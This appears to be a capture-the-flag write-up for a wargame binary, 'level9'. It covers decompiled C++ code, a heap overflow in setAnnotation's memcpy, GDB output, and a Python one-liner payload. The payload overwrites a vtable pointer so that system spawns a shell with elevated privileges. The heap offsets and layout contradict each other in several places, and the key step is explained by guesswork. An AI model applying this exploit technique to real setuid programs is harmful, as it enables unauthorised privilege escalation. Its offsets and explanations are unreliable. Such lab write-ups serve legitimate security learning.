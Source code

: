 LEVEL_9:
# 📚 Exploiting level9
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9 </br>
The level9 binary is a C++ program that runs with privileges for bonus0, where a class N with a vtable (for virtual functions like operator+ and operator-).
The program takes a command-line argument (argv[1]) and processes it through a vulnerable function.

Main Function :
```
  void main(int param_1, int param_2) {
    N *this;
    N *this_00;
    if (param_1 < 2) {
      _exit(1);  // Exit if no argv[1]
    }
    this = (N *)operator_new(0x6c);  // Allocate first N object (108 bytes)
    N::N(this, 5);  // Initialize with value 5
    this_00 = (N *)operator_new(0x6c);  // Allocate second N object
    N::N(this_00, 6);  // Initialize with value 6
    N::setAnnotation(this, *(char **)(param_2 + 4));  // Copy argv[1]
    (*(code *)**(undefined4 **)this_00)(this_00, this);  // Call vtable function
    return;
  }
```
N Constructor :
```
  void __thiscall N::N(N *this, int param_1) {
    *(undefined ***)this = &PTR_operator__08048848;  // Set vtable
    *(int *)(this + 0x68) = param_1;  // Set value at offset 0x68
    return;
  }
```
setAnnotation:
```
  void __thiscall N::setAnnotation(N *this, char *param_1) {
    size_t __n = strlen(param_1);
    memcpy(this + 4, param_1, __n);  // Vulnerable copy
    return;
  }
```

Vtable Functions:
```
int __thiscall N::operator+(N *this, N *param_1) {
  return *(int *)(param_1 + 0x68) + *(int *)(this + 0x68);
}
int __thiscall N::operator-(N *this, N *param_1) 
```

Behavior:
  - Allocates two N objects of size 0x6c (108 bytes) on the heap.
  - Initializes this with value 5, this_00 with value 6, and both with vtable at 0x08048848.
  - Copies argv[1] into this + 4 using memcpy without bounds checking.
  - Calls a function from this_00’s vtable, passing this_00 and this.

## Vulnerability
The memcpy in setAnnotation copies argv[1] to this + 4 with length strlen(argv[1]), without checking if it fits within the first object’s 108 - 4 = 104 bytes of available space.
  - A long argv[1] overflows into the second object (this_00), starting at its heap metadata (~0x804a078).
  - Can overwrite this_00’s vtable pointer (~0x804a080), controlling the function called by (*(code *)this_00->vtable)(this_00, this).
```
Based on GDB and typical heap allocation :
(gdb) b *0x08048617
Breakpoint 1 at 0x8048617
(gdb) b *0x08048639
Breakpoint 2 at 0x8048639
(gdb) run TEST
Starting program: /home/user/level9/level9 TEST

Breakpoint 1, 0x08048617 in main ()
(gdb) si
0x08048530 in operator new ()
(gdb) finish
Run till exit from #0  0x08048530 in operator new ()
0x0804861c in main ()
(gdb) info registers eax
eax            0x804a008        134520840
(gdb) continue
Continuing.

Breakpoint 2, 0x08048639 in main ()
(gdb) si
0x08048530 in operator new ()
(gdb) finish
Run till exit from #0  0x08048530 in operator new ()
0x0804863e in main ()
(gdb) info registers
eax            0x804a078        134520952
ecx            0x20f21  134945
edx            0xb7eec440       -1209088960
ebx            0x804a008        134520840
esp            0xbffff700       0xbffff700
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x804863e        0x804863e <main+74>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) set $A = 0x804a008
(gdb) set $B = 0x804a078
(gdb) p/d $B - ($A + 4)
$1 = 108
```
First Object (this):
```
  Starts at ~0x804a008 (heap chunk with metadata).
  Layout:
  0x804a008: [prev_size]
  0x804a00c: [size]
  0x804a010: [vtable = 0x08048848]
  0x804a014: [setAnnotation data]
  ...
  0x804a078: [value = 5]
```
Second Object (this_00):
```
  Starts at ~0x804a078 (0x804a010 + 0x6c).
  Layout:
  text0x804a078: [prev_size]
  0x804a07c: [size]
  0x804a080: [vtable = 0x08048848]
  ...
  0x804a0e4: [value = 6]
```

Key Offsets (from setAnnotation start at 0x804a014):
```
To this_00 start (0x804a078): 0x804a078 - 0x804a014 = 100 bytes.
To this_00->vtable (0x804a080): 108 bytes.
To this_00->vtable + 4 (0x804a084): 112 bytes.
```

Use setAnnotation’s memcpy to overwrite the vtable pointer at 0x804a080.</br>
Set it to point to a heap address (0x0804a00c) that contains the address of system (0xb7d86060).
Place "/bin/sh" nearby (0x804a084) to serve as the argument to system.

### Payload Construction

Total Length: 4 + 104 + 4 + 8 = 120 bytes (ensures memcpy copies all data, as strlen stops at null bytes).

Components:
```
Address of system : 0xb7d86060.
"\xb7\xd8\x60\x60" (big-endian, incorrect).
"\x60\x60\xd8\xb7" (little-endian, correct for x86).
Written to 0x804a014 (start of setAnnotation).

+
NOPS : "\x90" * 104:
104 NOP bytes (0x90, no operation).
Fills from 0x804a018 to 0x804a07f, covering the first object and reaching this_00’s metadata.

+
Heap address: 0x0804a00c (heap metadata, likely size field).
Reversed: "\x0c\xa0\x04\x08".
Written to 0x804a080 (vtable pointer of this_00).

+
";/bin/sh":

8 bytes: semicolon (ignored) + "/bin/sh" + null terminator.
Written to 0x804a084 onward.

0x804a008: base          # this
0x804a00c: 0xb7d86060    # system() address (4 bytes)  ← START OF COPY (this+4)
0x804a010: \x90\x90...   # 112 NOPs, occupies 0x804a010 .. 0x804a07f
0x804a080: 0x0804a00c    # this_00->vtable ← overwritten here (4 bytes)
0x804a084: ;/bin/sh\0    # command string (starts right after vtable slot)
```
The exploit command:

> ./level9 $(python -c 'print "\x60\x60\xd8\xb7" + "\x90" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh"') 

How the Exploit Works

Step-by-Step Execution:

Allocation:

this allocated at ~0x804a008, this_00 at ~0x804a078.


setAnnotation:

memcpy(this + 4, payload, strlen(payload)) copies 120 bytes to 0x804a014.
Overwrites:

0x804a014: system address (0xb7d86060).
0x804a080: Vtable pointer to 0x0804a00c.
0x804a084: ";/bin/sh".




Vtable Call:

(*(code *)this_00->vtable)(this_00, this).
this_00->vtable (0x804a080) = 0x0804a00c.
*(0x0804a00c) = 0xb7d86060 (from payload at 0x804a014, possibly due to heap alignment or earlier overwrite).
Calls system(this_00, this), where this_00 = 0x804a078.


system Call:

this_00 (0x804a078) is close to ";/bin/sh" at 0x804a084.
system interprets nearby memory as "/bin/sh" (the semicolon is ignored).
Spawns a shell with bonus0 privileges.




Why 0x0804a00c?:

0x0804a00c is the heap chunk’s size field (metadata).
The payload places system (0xb7d86060) at 0x804a014, but the vtable points to 0x0804a00c.
Likely, heap metadata or an earlier overwrite ensures 0x0804a00c points to 0x804a014 (or nearby), containing system.
